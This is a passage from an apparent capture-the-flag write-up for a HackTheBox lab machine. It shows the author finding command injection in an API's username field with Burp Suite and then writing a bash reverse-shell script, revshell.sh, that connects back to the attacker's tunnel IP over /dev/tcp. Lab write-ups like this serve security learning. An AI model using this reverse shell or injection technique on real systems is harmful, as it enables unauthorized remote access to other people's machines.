 First I tried some random host name and captured the request with burpsuite and sent that to the repeater tab. While I was testing with random credentials, when supplying an empty username, resulted in the following error.

<div data-full-width="false">

<figure><img src="../../.gitbook/assets/Untitled 14 (7).png" alt=""><figcaption></figcaption></figure>

</div>

From this error we can devise that this API is vulnerable to command injection. So I tried some basic command to test it.

<figure><img src="../../.gitbook/assets/Untitled 15 (6).png" alt=""><figcaption></figcaption></figure>

From the response, we can see the response of the id command and now its proved that the application is vulnerable to command injection. Now its time to use this vulnerability to gain access to the machine.

We know that, we can execute commands on the target machine with this vulnerability, so we can download a reverse shell on the target machine by sending command. For that first we need a reverse shell on our local machine. Create a file named `revshell.sh` and paste following code in that file. Don’t forget to replace the IP address.

```bash
#! /bin/bash

bash -i >& /dev/tcp/<Your_HTB_tunnel_IP>/9001 0>&1
```
